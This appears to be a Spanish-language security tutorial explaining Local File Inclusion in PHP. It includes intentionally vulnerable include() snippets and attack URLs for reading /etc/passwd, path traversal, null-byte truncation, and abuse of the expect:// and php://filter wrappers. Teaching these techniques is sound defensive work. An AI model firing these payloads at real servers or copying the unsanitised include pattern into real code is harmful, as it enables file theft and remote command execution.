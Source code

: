 ```yaml
---
title: Local File Inclusion (LFI)
published: true
---
```


La vulnerabilidad 'Local File Inclusion', 'LFI' por sus siglas en inglés, permite a un atacante leer archivos del servidor vulnerable. Esta afección se produce debido a malas prácticas durante la programación de una página web. 

Dependiendo de la gravedad, esta vulnerabilidad puede llevar al atacante a:
	
* RCE (Remote Code Execution)
* XSS (Cross-Site Scripting)
* DoS (Denial Of Service)

Un ejemplo muy básico sería el siguiente script de PHP:

```php
<?php
	$file = $_GET['filename'];
	include($file);
?>
```

Donde podemos leer cualquier archivo del sistema, en este caso el '/etc/passwd'

```
https://localhost/lfi.php?filename=/etc/passwd
```

Es importante aclarar que esta no es solo una vulnerabilidad de PHP, también está presente en otros lenguajes como lo es JSP o ASP.

### [](#header-3)Directory Path Traversal

Es posible que en el código se nos limite a acceder a archivos que se ubican únicamente en la ruta establecida, en este caso '/var/www/html/'.

```php
<?php
	$file = $_GET['filename'];
	include("/var/www/html/" . $file);
?>
```

Sin embargo, podemos "escaparnos" de la ruta establecida si añadimos '../', pudiendo así listar contenido más allá de '/var/www/html/'.

```
https://localhost/lfi.php?filename=../../../etc/passwd
```

### [](#header-3)Null Byte

De igual manera, es posible que en el código se nos limite a acceder a archivos con únicamente de la extensión establecida, en este caso 'PHP'.

```php
<?php
	$file = $_GET['filename'];
        require($file . ".php");
?>
```

De modo que cuando intentemos leer el archivo '/etc/passwd', o cualquier otro archivo, lo que estariamos leyendo en realidad sería el archivo '/etc/passwd.php', el cual no existe. Sin embargo, si añadimos el nullbyte `(%00)` al final de nuestra cadena de ataque, el '.php' no será tenido en cuenta. 

```
https://localhost/lfi.php?filename=/etc/passwd%00
```

### [](#header-3)Wrappers

PHP cuenta con una serie de "wrappers", los cuales a menudo pueden ser abusados, por mencionar algunos tenemos:

#### [](#header-4)expect://

Nos permite una ejecución remota de comandos (RCE).

```
https://localhost/lfi.php?filename=expect://whoami
```

#### [](#header-4)filter://

Nos permite codificar archivos del sistema a través de diferentes métodos como podría ser Base64 o ROT13. 
Es bastante útil si necesitamos leer un archivo en PHP, ya que recordemos, este es un lenguaje interpretado, por lo que si intentamos leer un archivo PHP, no veríamos nada.

```
https://localhost/lfi.php?filename=php://filter/convert.base64-encode/resource=test.php
```
